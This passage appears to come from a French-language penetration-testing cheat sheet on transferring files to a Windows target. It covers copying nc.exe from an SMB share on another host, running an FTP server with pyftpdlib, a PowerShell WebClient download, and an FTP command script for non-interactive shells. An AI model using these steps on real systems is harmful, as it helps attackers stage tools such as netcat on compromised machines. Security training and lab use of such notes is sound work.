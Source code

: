 Valider le montage

```
dir \\192.168.220.133\share
```

## File copy

```cmd
copy \\192.168.220.133\share\nc.exe
```


Demonter le share

```
net use n: /delete
```


# FTP DOWNLOADS

## Créer serveur ftp avec pyftpdlib

```shell
sudo pip3 install pyftpdlib
```

```sh
sudo python3 -m pyftpdlib --port 21
```

## File transfer

POWERSHELL

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

### Alternative

Créer un fichier de commandes sur le client FTP en cas de shell non interactif

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

# SSH DOWNLOADS

